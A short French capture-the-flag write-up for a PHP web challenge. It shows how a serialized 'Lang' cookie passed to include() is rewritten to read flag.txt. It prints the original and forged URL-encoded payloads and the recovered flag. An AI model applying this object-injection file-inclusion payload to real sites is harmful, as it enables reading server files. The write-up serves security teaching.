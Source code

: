 # WEB 50 - Much Serie Very Analyse


Un challenge très simple, en regardant la source disponible nous voyons qu’un cookie lang est désérialisé.

Cette désarialisation entraîne l’exécution de include($this->lang);.
En sélectionnant français comme langue pour le site, nous obtenons ce cookie:

```O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A6%3A%22fr.
php%22%3B%7D```

Il est encodé sous forme d’URL, en le décodant on obtient :
```O:4:'Lang':1:{s:10:'\ x00Lang\ x00lang';s:6:'fr.php';}```

Avec fr.php qui est le fichier à inclure et 6 la longueur du nom du fichier.
Nous voulons inclure flag.txt, il suffit de modifier les paramètres décris plus haut:

```O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A8%3A%22fla
g.txt%22%3B%7D```

Nous obtenons **ese{D4mn_PhP_Object}**.